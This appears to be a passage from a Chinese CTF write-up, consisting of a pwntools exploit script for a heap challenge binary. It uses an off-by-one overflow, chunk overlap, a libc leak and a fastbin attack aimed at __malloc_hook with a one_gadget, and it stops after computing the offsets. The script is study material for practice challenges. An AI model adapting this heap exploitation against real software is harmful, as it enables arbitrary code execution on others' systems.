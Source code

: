 

![7Kl4Tx](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/7Kl4Tx.png)



***完整的EXP***

```python
#!/usr/bin/python
from pwn import *

p=process(['./timu'],env={"LD_PRELOAD":"libc-2.23.so"})
#p=remote("111.198.29.45","47094")
context.log_level='Debug'
#gdb.attach(p,"b *0x7ffff7a52216")


def malloc(size,data):
	p.recvuntil("Your choice :")
	p.sendline(str(1))
	p.recvuntil("Size:")
	p.sendline(str(size))
	p.recvuntil("Data:")
	p.sendline(data)

def free(index):
	p.recvuntil("Your choice :")
	p.sendline(str(2))
	p.recvuntil('Index')
	p.sendline(str(index))

def show():
	p.recvuntil("Your choice :")
	p.sendline(str(3))

malloc(0x100,"A"*0x20)					#0
malloc(0x65,"b"*0x20)					#1
malloc(0x25,"b"*0x20)					#2
malloc(0x100,"a"*0x20)					#3	-->leak_libc
malloc(0x58,"B"*(0x50)+p64(0x250))			#4	-->off by one
malloc(0x200-0x10,'C'*0x20)				#5	-->fake preinuse & presize=250
malloc(0x28,"D"*0x20)					#6
free(4)
#free(2)							#2	-->for leak unsort bins	
free(0)
#####off by one
malloc(0x58,"B"*(0x50)+p64(0x280+0x70+0x30))			#3	
#####overlap
free(5)							#	-->overlap

#####leak libc
p.sendline()
malloc(0x170,"X"*0x100+p64(0)+p64(0x71))	        # for leak	
show()							#leak fd

p.recvuntil('2 : ')
fd=u64(p.recv(6).ljust(8,'\x00'))
print "[*]leak fd="+hex(fd)
libc_base=fd-0x3c4b78
print "[*]leak libc base="+hex(libc_base)

##### fastbin attack
malloc_hook=0x003C4B10+libc_base-0x23 			#local libc
one_gadget=0x4526a+libc_base				#local libc
realloc=0x846c0+libc_base
```